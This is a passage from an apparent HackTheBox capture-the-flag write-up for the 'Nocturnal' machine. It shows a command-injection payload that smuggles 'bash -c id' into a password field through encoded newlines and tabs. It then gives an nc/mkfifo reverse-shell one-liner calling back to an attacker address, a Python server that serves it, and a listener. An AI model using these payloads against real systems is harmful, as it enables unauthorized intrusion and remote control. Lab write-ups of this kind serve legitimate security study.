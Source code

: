 Despite certain character filters, the application does not restrict the use of URL-encoded new-line (%0a) and tab (%09). These can be leveraged in the following payload to bypass input restrictions.

```bash
# <NEWLINE>bash -c  "id"<NEWLINE>
password=%0abash%09-c%09"id"%0a&backup=
```

![alt text](../assets/img/posts/2025-08-21-htb-writeup-nocturnal/image-13.png)

Now that we can run commands as `www-data`, we create a reverse shell file and start a Python server on our machine to serve it to the target.

```bash
┌──(kali㉿kali)-[~]
└─$ vim shell
                                                                                                                    
┌──(kali㉿kali)-[~]
└─$ cat shell                                      
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|sh -i 2>&1|nc 10.10.14.217 4444 >/tmp/f
┌──(kali㉿kali)-[~]
└─$ python3 -m http.server 8081
Serving HTTP on 0.0.0.0 port 8081 (http://0.0.0.0:8081/) ...
```

And run another shell listening on port `4444` for our reverse shell

```bash
┌──(kali㉿kali)-[~]
└─$ nc -nvlp 4444        
listening on [any] 4444 ...
```
